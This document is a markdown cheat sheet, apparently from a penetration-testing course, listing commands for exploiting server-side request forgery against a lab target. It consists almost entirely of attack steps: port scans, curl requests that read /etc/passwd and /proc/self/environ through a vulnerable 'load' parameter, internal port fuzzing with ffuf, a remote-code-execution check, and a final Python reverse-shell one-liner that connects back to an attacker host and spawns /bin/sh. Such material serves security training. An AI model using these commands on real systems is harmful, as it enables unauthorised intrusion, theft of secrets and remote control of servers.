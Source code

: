 
## SSRF Exploitation Example

|**Command**|**Description**|
|---|---|
|`nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238`|Scanning the ports of the external target|
|`curl -i -s -L http://<TARGET IP>`|Interacting with the target and following redirects|
|`nc -lvnp 8080`|Starting a netcat listener to test for SSRF|
|`curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`|Testing for SSRF vulnerability|
|`python3 -m http.server 9090`|Starting the python web server|
|`sudo pip3 install twisted`|Installing the ftp server|
|`sudo python3 -m twisted ftp -p 21 -r .`|Starting the ftp server|
|`curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`|Retrieving a remote file through the target application (HTTP Schema)|
|`curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`|Retrieving a local file through the target application (File Schema)|
|`for port in {1..65535};do echo $port >> ports.txt;done`|Generating a wordlist of possible ports|
|`ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`|Fuzzing for ports on the internal interface|
|`curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`|Interacting with the internal interface on the discovered port|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`|Interacting with the internal application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`|Discovering web application listening in on localhost|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"`|Modifying the URL to bypass the error message|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -`|Requesting to disclose the /proc/self/environ file on the internal application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"`|Retrieving a local file through the target application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"`|Confirming remote code exeuction on the remote host|
|`sudo apt-get install jq`|Installing jq|

## Blind SSRF Exploitation Example

| **Command**                                                                                                                                                                                                                        | **Description**                      |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------ |
| `nc -lvnp 9090`                                                                                                                                                                                                                    | Starting a netcat listener           |
| `echo """<B64 encoded response>""" \| base64 -d`                                                                                                                                                                                   | Decoding the base64 encoded response |
| `export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'` |                                      |

